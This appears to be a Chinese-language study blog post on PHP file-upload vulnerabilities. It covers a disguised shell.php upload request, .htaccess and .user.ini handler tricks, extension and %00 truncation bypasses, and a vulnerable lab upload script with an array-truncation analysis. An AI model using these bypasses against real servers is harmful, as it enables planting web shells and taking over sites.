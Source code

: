 ```yaml
---
layout: post
title: File-Upload
subtitle: File-Upload
date: 2025-06-17 16:22
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
published: false
---
```

## 1. 文件上传漏洞利用

### 1.1. 前端绕过

上传.php.jpg 文件，bp 抓包修改后缀

```http
filename="shell.php"
Content-Type: image/jpeg

GIF89a
<?php phpinfo();?>
```

![image.png](https://img.ghostliner.top/BVGH0r.png)

### 1.2. 其他文件格式

一般 php可执行文件格式：`php` `php2` `php3` `php4` `php5` `phtml`

原理：apache `httpd.config` 文件配置

```
AddType application/x-httpd-php .php .phtml .php3
```

### 1.3. 配置文件利用

**条件：可以上传配置文件**

可利用 apache 配置文件 `.htaccess`

```
<FilesMatch "webshell">
Sethandler application/x-httpd-php
</FilesMatch>
# or
AddHandler application/x-httpd-php .xxx
```

php 配置文件 `.user.ini` <mark style="background: #BBFABBA6;">必须运行在 fastcgi 模式</mark>

```ini
auto_prepend_file = 123.txt
auto_append_file = 123.txt
```

### 1.4. 二次渲染

上传图片经二次渲染时，可通过010比较前后两个图片未修改部分，将代码插入其中

### 1.5. 其他绕过方式

大写 `.PHP`、双写 `.pphphp` 、末尾加点 `.php.` `.php. .` 、`.php::$data`

%00 截断（要求php版本小于5.3.4，php的magic_quotes_gpc为OFF状态）

#### 1.5.1. get 截断

![image.png](https://img.ghostliner.top/yKCXlN.png)

#### 1.5.2. post 截断

将 `%00` 进行url转码，请求体内容不会自动转码

![image.png](https://img.ghostliner.top/Uxyrhj.png)

#### 1.5.3. 数组截断

```php
$is_upload = false;
$msg = null;
if(!empty($_FILES['upload_file'])){
    //检查MIME
    $allow_type = array('image/jpeg','image/png','image/gif');
    if(!in_array($_FILES['upload_file']['type'],$allow_type)){
        $msg = "禁止上传该类型文件!";
    }else{
        //检查文件名
        $file = empty($_POST['save_name']) ? $_FILES['upload_file']['name'] : $_POST['save_name'];
        if (!is_array($file)) {
            $file = explode('.', strtolower($file));
        }

        $ext = end($file);
        $allow_suffix = array('jpg','png','gif');
        if (!in_array($ext, $allow_suffix)) {
            $msg = "禁止上传该后缀文件!";
        }else{
            $file_name = reset($file) . '.' . $file[count($file) - 1];
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $msg = "文件上传成功！";
                $is_upload = true;
            } else {
                $msg = "文件上传失败！";
            }
        }
    }
}else{
    $msg = "请选择要上传的文件！";
}
```

分析代码：

`$file[count($file) - 1]`，正常情况是获取$file数组最后一个下标数据，`count()` 函数在统计数组个数时只统计所有已定义元素，当 `save_name[1]` 未定义时，返回值为2.

构造 payload

![image.png](https://img.ghostliner.top/8KeRaf.png)
